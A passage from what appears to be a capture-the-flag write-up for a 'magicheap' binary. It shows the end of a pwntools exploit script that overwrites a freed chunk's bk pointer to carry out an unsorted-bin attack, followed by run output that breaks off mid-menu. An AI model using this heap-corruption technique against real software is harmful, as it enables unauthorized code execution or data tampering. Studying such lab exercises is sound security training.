 ```
add(0xf0, "75395128")# 1
add(0x30, "05935728")# 2

# Free the middle chunk, add it to the unsorted bin
delete(1)

# Overwrite the bk pointer of the chunk in the unsorted bin
edit(0, 0x110, "0"*0xf8 + p64(0x101) + "1"*0x8 + p64(magic - 0x10))

# Reallocate chunk 1 to remove it from the unsorted bin, and trigger the write
add(0xf0, "0000")

# Send the option to get the flag
target.sendline("4869")


target.interactive()
```

When we run it:

```
$ python exploit.py
[+] Starting local process './magicheap': pid 21548
--------------------------------
       Magic Heap Creator       
--------------------------------
 1. Create a Heap               
 2. Edit a Heap                 
 3. Delete a Heap               
 4. Exit                        
--------------------------------
Your choice :
Size of Heap :
Content of heap:
SuccessFul
--------------------------------
       Magic Heap Creator       
--------------------------------
 1. Create a Heap               
 2. Edit a Heap                 
 3. Delete a Heap               
 4. Exit                        
--------------------------------
Your choice :
Size of Heap :
Content of heap:
SuccessFul
--------------------------------
       Magic Heap Creator       
--------------------------------
 1. Create a Heap               
 2. Edit a Heap                 
 3. Delete a Heap               
 4. Exit                        
--------------------------------
Your choice :
Size of Heap :
Content of heap:
SuccessFul
--------------------------------
       Magic Heap Creator       
--------------------------------
 1. Create a Heap               
```